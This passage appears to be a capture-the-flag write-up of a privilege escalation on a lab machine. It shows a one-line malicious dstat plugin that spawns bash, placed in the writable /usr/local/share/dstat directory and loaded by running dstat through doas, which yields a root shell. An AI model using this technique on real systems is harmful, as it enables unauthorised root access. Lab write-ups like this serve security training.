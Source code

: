 > While anyone can create their own dstat plugins (and contribute them)
> dstat ships with a number of plugins already that extend its
> capabilities greatly.

At the very bottom of the page, it has a section on files:

> Paths that may contain external dstat\_\*.py plugins:
>
> <div>
>
> <div>
>
>     ~/.dstat/
>     (path of binary)/plugins/
>     /usr/share/dstat/
>     /usr/local/share/dstat/
>
> </div>
>
> </div>

Plugins are Python scripts with the name `dstat_[plugin name].py`.

#### Malicious Plugin

I'll write a very simple plugin:



    import os

    os.system("/bin/bash")



This will drop into Bash for an interactive shell.

Looking at the list of locations, I can obviously write to `~/.dstat`,
but when run with `doas`, it'll be running as root, and therefore won't
check `/home/player/.dstat`. Luckily, `/usr/local/share/dstat` is
writable.



    player@soccer:~$ echo -e 'import os\n\nos.system("/bin/bash")' > /usr/local/share/dstat/dstat_0xdf.py



With that in place, I'll invoke `dstat` with the `0xdf` plugin:



    player@soccer:~$ doas /usr/bin/dstat --0xdf
    /usr/bin/dstat:2619: DeprecationWarning: the imp module is deprecated in favour of importlib; see the module's documentation for alternative uses
      import imp
    root@soccer:/home/player#



And grab the flag:



    root@soccer:~# cat root.txt
    774a30b5************************







